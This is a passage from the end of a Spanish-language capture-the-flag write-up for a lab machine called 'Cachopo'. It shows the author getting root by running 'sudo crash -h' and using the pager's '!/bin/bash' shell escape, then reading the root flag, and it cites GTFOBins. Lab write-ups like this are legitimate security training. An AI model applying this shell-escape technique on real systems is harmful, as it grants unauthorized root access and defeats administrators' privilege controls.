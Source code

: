 Básicamente, tenemos que aplicar un **Shell Escape**.

Ejecútalo:
```bash
carlos@Cachopo:~$ sudo crash -h
```

Entramos al manual del binario, ahora solo falta aplicar un **Shell Escape** con `!/bin/bash`:

<p align="center">
<img src="/assets/images/THL-writeup-cachopo/Captura9.png">
</p>

Observa el resultado:
```bash
carlos@Cachopo:~$ sudo crash -h
root@Cachopo:/home/carlos# whoami
root
```
Ya somos **Root**.

Obtengamos la última flag:
```bash
root@Cachopo:/home/carlos# cd /root
root@Cachopo:~# ls
root.txt
root@Cachopo:~# cat root.txt
...
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://gtfobins.github.io/gtfobins/crash/


<br>

# FIN

<footer id="myFooter">
    <!-- Footer para eliminar el botón -->
</footer>
